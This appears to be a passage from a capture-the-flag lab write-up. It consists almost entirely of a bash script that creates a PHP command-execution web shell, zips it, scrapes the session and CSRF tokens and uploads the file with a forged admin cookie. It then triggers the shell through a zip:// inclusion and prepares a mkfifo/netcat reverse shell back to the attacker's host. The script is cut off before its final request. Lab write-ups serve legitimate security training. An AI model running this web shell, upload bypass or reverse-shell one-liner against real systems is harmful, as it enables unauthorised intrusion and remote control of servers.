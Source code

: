 ### request_shell.sh

It’s always nice to script up the shell, especially for one with as many steps
as this.

    
    
    #!/bin/bash
    
    if [ "$#" != "2" ]; then
        echo "$0 [zip file] [shell] [parameter] [ip] [port]"
        echo "$# given"
        exit 1
    fi
    
    zip="/tmp/payload.zip"
    shell="shell"
    shell_path="/tmp/${shell}.php"
    param="cmd"
    ip=$1
    port=$2
    
    # create zip payload
    echo "[*] Creating php shell and zip file"
    rm -f ${zip} ${shell_path}
    echo '<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>' > ${shell_path}
    zip -j /tmp/payload.zip /tmp/shell.php
    
    # Get PHPSESSID and CSRF token from upload page
    echo "[*] Getting PHPSESSID and CSRF token from /?op=upload"
    tokens=$(curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"' | sed 's/\n/=/g')
    
    readarray token_array  <<< $tokens
    phpid=$(echo "${token_array[0]}" | cut -d';' -f1 | cut -d'=' -f2)
    csrf=$(echo "${token_array[1]}" | cut -d'"' -f10)
    echo -e "[+] Tokens received:\n  PIPSESSID: ${phpid}\n  CSRF:      ${csrf}"
    
    # Upload zip file, get location
    echo "[*] Uploading zip though /?op=upload form"
    location=$(curl -X POST -sD - -F "tip=<${zip}" -F "name=a" -F "token=${csrf}" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80?op=upload -H "Cookie: admin=1; PHPS
    ESSID=${phpid}" | grep Location | cut -d' ' -f2)
    secret_file=$(echo -n ${location} | cut -d'=' -f3)
    echo -e "[+] File uploaded to ${location}"
    
    # Activate callback
    url="http://10.10.10.80/"
    op="zip://uploads/${ip}/${secret_file//[$'\r\n']}#${shell//[$'\r\n']}"
    p="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ${ip} ${port} >/tmp/f"
    